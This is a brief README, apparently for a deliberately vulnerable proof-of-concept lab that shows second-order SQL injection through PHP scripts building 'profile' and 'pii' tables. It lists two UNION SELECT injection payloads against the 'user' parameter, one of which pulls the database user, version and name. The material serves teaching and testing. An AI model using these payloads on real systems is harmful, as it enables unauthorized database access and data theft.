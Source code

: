# Second-Order-SQLi
This is a POC for Second Order SQL Injection
0. Before using change the database details in both files ( getdata.php and instert.php)
1. When you run instertdata.php, it will create a two tables profile and pii. 
2. When you run getdata.php with id, it will fetch the details from both tables. 
 Though id is there in only profile table, internally the script run another sql query filter "user" as both have "user" column common. 
 Here "user" parameter is vulnerable
 
 Attack: 
  vunerable parameter (insert.php) - user
  Payload: X' UNION SELECT user(),version(),database(), 4 -- 
  Palyoad:  X' UNION SELECT 1,2,3,4 -- 
  
